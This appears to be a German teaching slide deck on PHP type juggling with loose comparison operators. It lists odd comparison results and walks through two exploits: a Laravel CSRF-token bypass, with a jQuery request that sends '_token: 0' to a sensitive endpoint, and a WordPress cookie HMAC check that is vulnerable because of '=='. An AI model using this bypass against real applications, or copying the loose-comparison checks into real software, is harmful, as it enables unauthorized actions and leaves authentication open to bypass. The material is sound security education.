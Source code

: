 ## Vergleichsoperator ===

![Picture](0x09_type_juggling_1.png){.stretch}

## Vergleichsoperator ==

![Picture](0x09_type_juggling_2.png){.stretch}

## Hint

* es gibt auch != und !==

## Fun Examples

``` php
TRUE: "0000" == int(0)
TRUE: "0e12" == int(0)
TRUE: "1abc" == int(1)
TRUE: "0abc" == int(0)
TRUE: "abc"  == int(0) // !!
TRUE: "0e12345" == "0e54321"
TRUE: "0e12345" <= "1"
TRUE: "0e12345" == "0"
TRUE: "0xF"     == "15"
```

## Exploit 1 (Larabel CSRF-Bypass)

``` php
if (Session::token() != Input::get('_token')) {
   throw new Illuminate\Session\TokenMismatchException;
}
// authenticated operation
```

Token: Random-String, in 85% der Fälle mit 0 oder Buchstaben als erstes Zeichen

## Exploit 1 (Larabel CSRF-Bypass)

Exploit:
```
$.ajax("http://<laravel app>/sensitiveaction", {
	type: 'post',
	contentType: 'application/x-www-form-urlencoded; charset=UTF-8; /json',
	data: '{"sensitiveparam": "sensitive", "_token": 0}',});
```

## Exploit 2 (Wordpress Auth Bypass)

``` php
# Cookie vom Browser:
# beinhaltet: $hmac, $user, $expiration

# serverseitiger Check
if ($hmac == hash_hmac('md5', $user .'|'. $expiration, $key)) {
  // authenticated operation
}
```
